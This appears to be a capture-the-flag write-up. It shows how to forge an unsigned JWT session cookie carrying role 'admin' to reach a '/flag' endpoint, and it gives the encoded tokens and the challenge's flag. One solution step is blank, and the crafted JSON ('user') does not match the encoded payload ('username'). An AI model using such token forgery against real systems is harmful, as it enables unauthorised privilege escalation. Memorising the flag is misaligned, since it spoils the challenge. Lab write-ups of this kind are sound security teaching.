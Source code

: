 ## Solution
1. Just like before, understand the purpose of the endpoints.
    - `/update` -- Allows the user to modify the `data` object via `Object.assign()`.
    - `/flag` -- Delivers the flag is the data `role` is equal to `admin`.
2. Also just like before, develop a payload to modify the user data via the `/update` endpoint.
3. Identify what was used to make the Session Cookies via Inspect / Developer Mode.
4.
5. Execute the exploit and obtain the flag.

## Proof of Concept

1. Identify object properties

   - Visit the `/update` endpoint.

2. Craft the Payload

    ```
    {
        "user": "guest",
        "role": "admin"
    }
    ```

3. Craft the JWT Token using the payload earlier ([jwt.io](https://jwt.io/))

    - Keep the JWT Token Header as it is not modified
    - Base64 URL Encode the new payload

    ```
    # Old Token Header
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
    # New Token Payload
    eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6ImFkbWluIn0
    # New JWT Token
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6ImFkbWluIn0
    ```

4. Change the JWT Token stored in the Session Cookies

    - Inspect / Developer Mode
    - Replace the "token" key's value with the New JWT Token.

5. Get the flag

    - Visit the `/flag` endpoint.

## Flag
- `SIG24{ju1cY_w3b_t0k3n5}` (static)
